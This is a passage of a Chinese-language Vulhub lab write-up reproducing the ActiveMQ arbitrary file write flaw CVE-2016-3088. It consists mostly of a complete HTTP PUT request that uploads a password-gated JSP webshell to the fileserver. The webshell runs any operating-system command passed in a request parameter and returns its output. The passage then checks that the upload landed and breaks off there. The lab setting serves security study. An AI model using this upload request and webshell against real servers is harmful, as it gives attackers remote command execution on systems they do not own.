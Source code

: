 访问 webshell（需要登录）：

**漏洞复现**

访问 http://centos7-6.local:8161/fileserver/ 

![访问](./../../../../images/Vulhub/activemq/ActiveMQ%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-3088%EF%BC%89/%E5%86%99%E5%85%A5%20webshell/%E8%AE%BF%E9%97%AE.png)

抓包，上传 webshell 

```http
PUT /fileserver/test.txt HTTP/1.1
Host: centos.local:8161
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Connection: close
Content-Length: 450

<%
        if("023".equals(request.getParameter("pwd"))){
                java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
                int a = -1;
                byte[] b = new byte[2048];
                out.print("<pre>");
                while((a=in.read(b))!=-1){
                        out.println(new String(b));
                }
                out.print("</pre>");
        }
%>
```

访问 http://centos7-6.local:8161/fileserver/test.txt ，确认文件 test.txt 已经上传
